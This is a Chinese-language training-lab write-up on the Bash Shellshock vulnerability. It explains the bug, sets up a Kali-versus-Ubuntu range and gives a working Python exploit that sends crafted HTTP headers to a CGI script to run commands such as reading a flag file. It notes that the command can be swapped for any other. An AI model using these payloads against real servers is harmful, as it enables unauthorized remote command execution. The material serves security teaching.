

# bash 破壳漏洞

## 【实验原理】

​	Bash使用的环境变量是通过函数名称来调用的，导致漏洞出问题是以“(){”开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。导致出现命令执行，而其核心的原因在于在输入的过滤中没有严格限制边界，也没有做出合法化的参数判断。

## 【实验目的】

提高学员对bash命令的理解以及对bash的原理进行一定的认识。

## 【实验环境】


* 靶机：Ubuntu14.04 64位操作系统。
* IP地址：随机分配，已绑定端口80
* 客户机：kali  IP地址：随机分配

## 【实验工具】

Python，浏览器访问，漏洞POC进行命令执行

## 【实验步骤】

**步骤1：** 访问平台生成的url，对bash破壳漏洞进行一个初步的了解。


** 步骤2：** 点击靶场环境按钮，进入一个cgi页面





**步骤3：** 通过对bash破壳漏洞的进一步了解，从而进行构造攻击payload对靶场页面URL进行远程命令执行

编写exp：

```python
#coding=utf-8
import urllib, urllib2
import cookielib, socket
import cgi, re, os


def get_request(url):
    socket.setdefaulttimeout(5)
    i_headers = {"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
                 "User-Agent": "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.125 Safari/537.36",
                 "CustomHeader": "() { test;};echo; echo shellshock one;",
                 "CustomHeaderNew": "() { _;} >shellshockme[$($())] { cat flag.txt;}",
                 }

    try:
        req = urllib2.Request(url, headers=i_headers)
        response = urllib2.urlopen(req)
        print response.info()
        html = response.read()
        print html
    except:
        print "Error on request"

if __name__ == '__main__':
    url = "http://218.2.197.232:25294/cgi-bin/test.sh"
    get_request(url)

```

**注：**

1. 将exp中的url替换成自己靶机的url即可
2. exp中的`i_headers`字段将`{ cat flag.txt;}`命令替换成你需要的指令即可完成任意命令执行

**步骤4：** 通过对服务器进行命令执行操作，找出含有flag的页面，flag.txt

**步骤4：** 执行命令查看或下载该文件，找出文件中的flag

执行结果：


## **【实验总结】**

本次实验主要是模拟真实环境中bash破壳漏洞命令执行操作，提取有效信息。
